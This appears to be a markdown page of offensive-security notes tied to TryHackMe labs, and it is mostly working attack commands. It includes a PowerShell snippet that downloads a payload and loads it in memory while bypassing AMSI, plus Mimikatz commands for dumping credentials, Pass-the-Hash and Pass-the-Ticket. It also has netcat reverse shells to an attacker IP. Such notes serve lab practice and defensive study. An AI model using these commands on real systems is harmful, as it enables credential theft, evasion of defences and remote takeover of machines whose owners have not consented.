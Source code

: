 ## Reflection Method:
- Can use this to load a payload from url using reflection method without touching disk
- Need to defeat AMSI before
```c
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```
- To work with a DLL on disk
```bash
[System.Reflection.Assembly]::Load([IO.File]::ReadAllBytes(".\amsibypass.dll"))
[Bypass.Asmi] # Bypass is a namespace. Amsi is a class in that namespace.
[Bypass.Asmi]::Patch() # Patch is a function in the Amsi class in the Bypass namespace.
```

## WinPEAS:
- Enumerate privelege escalation methods
- Can be obfuscated in `Visual Studio` using `dotfuscator`

## Mimikatz:
- Commands to use with `mimikatz.exe`
```bash
coffee # To test if it works

privilege::debug
token::elevate

sekurlsa::logonPasswords

# To dump SAM hashes. Only local users. No domain users.
lsadump::sam

# To dump LSASS hashes. Local users and recently logged on domain users.
sekurlsa::msv
lsadump::lsa /patch

# To dump cleartext credentials
lsadump::secrets

# Can use Pass The Hash to execute commands like reverse shells
token::revert # Cant work with elevated privileges
sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"c:\tools\nc64.exe -e cmd.exe 10.50.65.97 5555"
nc -lvnp 5555 # On kali

# To dump kerberos tickets and session keys for Pass The Ticket attacks
sekurlsa::tickets /export

# To use the client session tickets for Pass The Attack
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi # [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi > is what the ticket looks like

# Can use it for Overpass The Hash or Pass The Keys attacks 
sekurlsa::ekeys

# Depending on the keys we find we can use these methods
# RC4 hash:
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
# AES128 hash:
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```